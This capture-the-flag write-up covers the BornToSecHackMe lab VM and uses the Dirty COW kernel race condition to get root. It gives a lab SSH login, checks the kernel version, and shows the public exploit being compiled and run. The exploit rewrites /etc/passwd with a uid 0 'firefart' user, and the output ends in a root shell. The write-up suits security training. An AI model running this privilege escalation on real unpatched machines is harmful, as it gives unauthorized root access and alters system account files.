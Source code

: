 # BONUS1 : DIRTY COW

When we search a way to get root on syslinux for writeup2, we found an other way called dirtycow, who exploit a `race-condition vulnerability`. (
[dirty cow](https://en.wikipedia.org/wiki/Dirty_COW#:~:text=The%20vulnerability%20has%20been%20patched,26%20and%20newer.))

This vulnerability is fixed on kernel version 4.8 and superior, so we need to know our version of kernel, and be connected:

ssh user: `laurie`  
ssh password: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

```bash
ssh laurie@{IP}

laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

We are now sure that dirtycow is possible, the version is bellow 4.8.

After some tests, we found this script of dirty cow who works on our vm : [dirtycow link](https://github.com/FireFart/dirtycow)

This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line in /etc/passwd.

We create a file `dirty.c` with this script, then run with the command given by the creator of the script:

```bash
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:~$ su firefart
Password:
firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)
```